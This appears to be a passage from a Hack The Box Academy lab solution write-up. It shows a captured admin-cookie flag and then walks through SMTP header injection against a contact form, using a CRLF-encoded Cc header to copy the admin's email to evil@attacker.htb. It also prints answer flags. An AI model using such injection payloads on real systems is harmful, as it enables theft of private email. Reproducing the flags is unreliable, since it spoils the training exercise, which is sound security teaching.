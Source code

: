 After clicking and waiting for a few seconds for the admin to inspect the link, students need to check the log file over `http://STMIP:STMPO/log` to attain the flag `HTB{d7f23c50eaddb4f2d339c23297db3577}` as the value of the cookie `AdminCookie`:

![[HTB Solutions/CWEE/z. images/8706827cf93d596c53d8d268783f416c_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/434154baf50159d108a1f56abfa44d98_MD5.jpg]]

Answer: `HTB{d7f23c50eaddb4f2d339c23297db3577}`

# SMTP Header Injection

## Question 1

### "Try to use what you learned in this section to steal the sensitive information sent to the admin user in an email. Your email address is evil@attacker.htb. The emails can be accessed on the vhost mail.smtpinjection.htb."

After spawning the target machine, students first need to add the vHost entry `mail.smtpinjection.htb` into `/etc/hosts`:

Code: shell

```shell
sudo sh -c 'echo "STMIP mail.smtpinjection.htb" >> /etc/hosts'
```

```
┌─[us-academy-1]─[10.10.15.2]─[htb-ac413848@htb-mjn7xdw2hs]─[~]
└──╼ [★]$ sudo sh -c 'echo "165.227.228.154 mail.smtpinjection.htb" >> /etc/hosts'
```

Subsequently, when visiting the root webpage of the spawned target machine's website and scrolling down to "Contact Me", students will notice that it says all messages are sent to the admin via email:

![[HTB Solutions/CWEE/z. images/dbd6a51f012909b4bfdbb65676642333_MD5.jpg]]

Additionally, the question mentions that sensitive information is being sent to the admin user in the sent email(s). Thus, students need to get a copy of the email being sent to the admin. First, students need to fill the form with dummy data and click on `Submit` to intercept the request with `Burp Suite` and send it to `Repeater`:

![[HTB Solutions/CWEE/z. images/9037785dd0255b96c34ebe4eae9929e3_MD5.jpg]]

In the post form fields, students need to inject the `CRLF` sequence and use the SMTP header `Cc` (`Carbon copy`) with the value `evil@attacker.htb` to attempt to receive a copy from the email being sent to the admin:

Code: http

```http
name=ryansam%40gmail.com%0d%0aCc:+evil@attacker.htb&phone=123&message=Hello+Admin
```
